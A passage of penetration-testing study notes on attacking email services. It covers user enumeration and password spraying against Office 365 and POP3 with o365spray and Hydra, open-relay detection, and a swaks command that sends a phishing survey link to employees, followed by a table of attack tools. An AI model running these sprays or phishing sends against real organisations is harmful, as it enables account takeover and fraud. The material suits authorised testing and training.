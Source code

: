 Now, we can attempt to identify usernames:
```console
zero@pio$ python3 o365spray.py --enum -U <USER LIST> --domain <TARGET>   
```

We can use Hydra to perform a password spray or brute force against email services such as SMTP, POP3, or IMAP4. First, we need to get a username list and a password list and specify which service we want to attack. Let us see an example for POP3:
```console
zero@pio$ hydra -L <USER LIST> -p '<PASSWORD>' -f <TARGET> pop3
```

These tools are usually blocked. We can use o365spray, [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta.
```console
zero@pio$ python3 o365spray.py --spray -U <USER LIST> -p '<PASSWORD>' --count 1 --lockout 1 --domain <DOMAIN>
```

## Protocol Specifics Attacks 

### Open Relay 

With the **nmap smtp-open-relay** script, we can identify if an SMTP port allows an open relay:
```console
zero@pio$ nmap -p25 -Pn --script smtp-open-relay <TARGET>
```

Next, we can use any mail client to connect to the mail server and send our email:
```console
zero@pio$ swaks --from notifications@target.pwn --to employees@target.pwn --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server <TARGET>
```

---

# Resources 

| **Link**   | **Description**    |
|--------------- | --------------- |
| **General** |
| [Medusa](https://github.com/jmk-foofus/medusa) | Medusa is a speedy, parallel, and modular, login brute-forcer |
| [Responder](https://github.com/lgandx/Responder) | is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication |
| [Impacket](https://github.com/SecureAuthCorp/impacket) | is a collection of Python classes for working with network protocols |
| [mimikatz](https://github.com/gentilkiwi/mimikatz) | A little tool to play with Windows security |
| [Ettercap](https://www.ettercap-project.org/) | is a comprehensive suite for man in the middle attacks |
| [Bettercap](https://www.bettercap.org/) | Swiss Army knife for WiFi, Bluetooth Low Energy, wireless HID hijacking and IPv4 and IPv6 networks reconnaissance and MITM attacks || **SMB** |
| [SMBClient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) | lient that can 'talk' to an SMB/CIFS server |
| [SMBMap](https://github.com/ShawnDEvans/smbmap) | SMBMap is a handy SMB enumeration tool |
| [rpcclient](https://linux.die.net/man/1/rpcclient) | tool for executing client side MS-RPC functions |
| [enum4linux](https://github.com/cddmp/enum4linux-ng) | is a tool for enumerating information from Windows and Samba systems |
| **RDP** |
| [Crowbar](https://github.com/galkan/crowbar) | is brute forcing tool |
| **DNS** |